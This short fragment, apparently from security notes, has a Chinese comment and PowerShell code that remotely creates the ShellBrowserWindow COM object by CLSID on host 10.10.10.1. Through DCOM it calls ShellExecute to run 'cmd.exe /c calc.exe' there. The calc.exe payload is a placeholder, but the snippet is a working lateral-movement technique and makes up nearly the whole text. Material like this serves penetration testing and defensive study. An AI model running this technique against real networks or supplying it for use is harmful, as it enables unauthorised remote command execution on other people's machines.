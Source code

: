 	仅限 Windows 10，该对象在 Windows 7 中不存在
	$com = [Type]::GetTypeFromCLSID('C08AFD90-F2A1-11D1-8455-00A0C91F3880',"10.10.10.1")
	$obj = [System.Activator]::CreateInstance($com)
	$obj.Application.ShellExecute("cmd.exe","/c calc.exe","C:\windows\system32",$null,0)